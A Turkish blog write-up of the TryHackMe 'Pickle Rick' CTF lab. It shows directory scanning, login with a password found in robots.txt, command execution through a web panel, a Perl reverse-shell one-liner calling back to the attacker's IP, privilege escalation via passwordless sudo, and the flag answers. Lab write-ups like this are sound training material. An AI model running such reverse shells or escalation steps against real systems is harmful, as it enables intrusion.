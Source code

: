 ```yaml
---
title: "TryHackMe | Pickle Rick Write-Up"
date: 2022-04-10T16:10:00+03:00
draft: false
---
```

Bu içerik TryHackMe platformundaki PickleRick CTF’inin çözümünü içerir. Çözmek isteyenler için: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

Bu Rick and Morty temalı challenge, Rick’in kendini turşudan insana geri döndürmesi için yapılacak iksirin 3 malzemesini bir web sunucusunun zaafiyetlerinden yararlanarak elde etmeyi gerektirir.

Daha önceden çözdüğüm başka bir keyifli Rick and Morty temalı CTF daha önereceğim:

[https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/)

Makineyi başlatıyorum.

Hedef siteye gittiğimizde bizi Rick’in istifralarıyla dolu cümleleri karşılıyor.

![Untitled](/img/TryHackMe%20%2032bed/Untitled.png)

Rick bizden iksirin malzemelerini bulmamız için bilgisayarına girmemiz gerektiğini ama parolasını hatırlamadığını söylüyor.

İlk önce bir ipucu var mı diye sayfa kaynağını görüntülüyorum.

Altta yorum satırları içinde ipucumuz bizi bekliyor.

```
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Anasayfadaki resmi yeni sekmede açtığımızda nerede depolandığını görüyoruz.

/assets/ yoluna gittiğimizde bazı dosyaları görüyorum. Belki ilerde bir reverse shell yükleyebiliriz.

F12 ile cookie’lere bakıyorum bir şey bulamıyorum.

nmap ile 22 SSH portunun açık olduğunu görüyorum.

![Untitled](/img/TryHackMe%20%2032bed/Untitled%201.png)

Gobuster ile url’yi tarıyorum.

```jsx
gobuster dir -u [https://10-10-4-52.p.thmlabs.com](https://10-10-4-52.p.thmlabs.com/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Gobuster ile ne kadar denesem de bir sonuç alamıyorum.

Bunun yerine dirsearch ile tarıyorum ve çıkan sonuçlar:

```jsx
[13:46:18] 200 -    2KB - /assets/                                     
[13:46:39] 200 -    1KB - /index.html                                       
[13:46:42] 200 -  882B  - /login.php                                        
[13:46:53] 200 -   17B  - /robots.txt
```

robots.txt’de Rick anlamsızca `Wubbalubbadubdub` diyor.

login.php’de önüme bir login ekranı çıkıyor.

username’i zaten biliyoruz. Şifre için bir brute-force attack uygulayabiliriz.

Burpsuit’in free kısmında zaman sınırlaması konulduğu için hydra kullanmayı tercih ediyorum.

hydra’yı birkaç wordlist ile deniyorum ama başarısız sonuç alıyorum.

Sonra aklıma anlamsızca dediğim `Wubbalubbadubdub` geliyor.

Deniyorum ve sonuç başarılı.

Şimdilik sadece command panel’i görebiliyorum diğer sayfalara yetkim yok. 

![Untitled](/img/TryHackMe%20%2032bed/Untitled%202.png)

Dizini ls komutuyla listeliyorum ve `Sup3rS3cretPickl3Ingred.txt`'i cat komutuyla yazdırıyorum ama başarısız.

![Untitled](/img/TryHackMe%20%2032bed/Untitled%203.png)

Sonra dizin olarak `Sup3rS3cretPickl3Ingred.txt`'e gitmeyi düşünüyorum ve

```jsx
[http://10.10.4.52/Sup3rS3cretPickl3Ingred.txt](http://10.10.4.52/Sup3rS3cretPickl3Ingred.txt)
```

ilk malzememizi buluyorum: `mr. meeseek hair`

clue.txt’de ipucu var mı diye bakıyorum.

```jsx
Look around the file system for the other ingredient.
```

portal.php’in kaynak html kodunda yorum satırında bir şey buluyorum.

```jsx
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

Sondaki eşittirleri silip cyberchef’te base64’ten çeviriyorum ve bir kaç kez dönen sonucu yaptıktan sonra ortaya çıkan deşifre:

```jsx
rabbit hole
```

“ls /home” komutunu girince iki tane kullanıcı karşıma çıkıyor:

```jsx
rick
ubuntu
```

“ls /home/rick” komutunu girince ikinci malzemenin burada olduğunu anlıyorum.

“cp /home/rick/* .” komutu ile dosyayı buraya kopyalamaya çalışıyorum ama olmuyor.

cat komutu çalışmıyor bunun yerine less komutunu deniyorum, dosyanın içeriğini görüntülüyorum ve ikinci malzememiz: `1 jerry tear`

Artık reverse shell ile komut satırına geçmenin zamanıdır diye düşünüyorum ve internette bash ile reverse shell oluşturabilecek kod parçası arıyorum.

```jsx
	perl -e 'use Socket;$i="10.8.52.245";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Deniyorum ve işe yarıyor.

![Untitled](/img/TryHackMe%20%2032bed/Untitled%204.png)

find / -perm -u=s -type f 2>/dev/null komutuyla sudo’ya yetkisi olan dosyaları listeliyoruz.

Burdan da bize ekmek çıkmıyor.

sudo komutundan ilerliyorum. sudo -l komutuyla aldığım çıktıyla anlıyorum ki www-data kullanıcısı sudo komutunu şifresiz istediği yerde kullanabilir.

![Untitled](/img/TryHackMe%20%2032bed/Untitled%205.png)

Finallerin /root’da olacağı aklıma geliyor

“sudo ls /root/” ile listeliyorum.

```jsx
3rd.txt
snap
```

“sudo cat /root/3rd.txt”

```jsx
3rd ingredients: fleeb juice
```

ve son malzememiz: `fleeb juice`

Yazdığım içeriği okuduğunuz için teşekkür ederim. İyi çalışmalar.